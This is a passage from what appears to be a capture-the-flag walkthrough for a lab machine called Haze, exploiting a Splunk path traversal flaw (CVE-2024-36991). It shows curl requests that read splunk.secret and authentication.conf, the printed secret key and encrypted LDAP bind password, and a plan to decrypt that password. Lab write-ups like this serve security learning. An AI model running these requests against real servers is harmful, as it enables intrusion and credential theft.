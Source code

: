 C:\Program Files\Splunk\etc\auth\splunk.secret
C:\Program Files\Splunk\etc\system\local\authentication.conf

reference: https://docs.splunk.com/Documentation/Splunk/latest/Admin/Authenticationconf

```bash
➜  CVE-2024-36991 git:(main) ✗ curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret"
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD                                                                                                                                                                        
➜  CVE-2024-36991 git:(main) ✗ curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf"
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

from binDN we got the user Paul Taylor and the password which is encrypted will will decrypt the password with the secret using a tool called splunksecrets
